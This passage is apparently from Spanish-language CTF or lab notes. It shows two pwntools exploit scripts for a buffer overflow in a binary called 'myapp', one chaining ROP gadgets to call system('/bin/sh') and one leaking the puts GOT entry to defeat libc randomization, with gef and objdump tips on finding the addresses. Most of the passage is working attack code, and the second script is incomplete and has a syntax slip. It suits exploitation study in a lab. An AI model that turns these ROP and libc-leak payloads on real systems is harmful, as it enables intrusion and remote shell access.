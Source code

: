 ```python
p = remote("10.10.10.10", 1337)
# p.recvuntil("What do you want me to echo back")

# En teoria son 120 de junk, pero le restamos el total de la cadena /bin/sh + nullbyte para que este al tope.
junk = b"A"*112
null = p64(0x0)
bin_sh = b"/bin/sh\x00"

# Usamos popper ( en gef ) para ver el gadget utilizado en hexadecimal -> gef> ropper --search "pop r13"
pop_r13 = p64(0x401206)

# Sacamos el valor de test con objdump -D ./myapp | grep "test"
test = p64(0x401152)

# Sacamos el valor de system con objdump -D ./myapp | grep "system"
system_plt = p64(0x401040)

payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

p.sendline(payload)
p.interactive()
```

Y con esto obtendriamos una shell en la maquina victima.


**Lista todas las funciones**:
```
gef> info functions
```

**Lista los registros**:
```
gef> i r
```

##### Leaking puts and libc address to make a system call with the argument loaded in RDI[Way 2]
Podemos tratar de lekear **libc** de la maquina victima para asi intentar abusar de este
```python
#!/usr/bin/python3

from pwn import *
context([termina="tmux", 'new-window'])
context([os="linux", arch="amd64"])

p = remote("10.10.10.10", 1337)

junk = b"A"*120

# Sacamos el valor de gef> ropper --search "pop rdi"
pop_rdi = p64(0x40120b)

# Sacamos el valor con objdump -D ./myapp | grep system
system_plt = p64(0x401040)

# Sacamos el valor de Ghidra, si vemos el codigo en ensamblador de main
main = p64(0x40115f)

# Sacamos el valor con objdump -D ./myapp | grep puts, esto lo pasamos a gdb haciendo un b *main y luego un x/i y le pasamos la direccion que sacamos con objdump
got_puts = p64(0x404018)

payload = junk + pop_rdi + got_puts + system_plt + main
```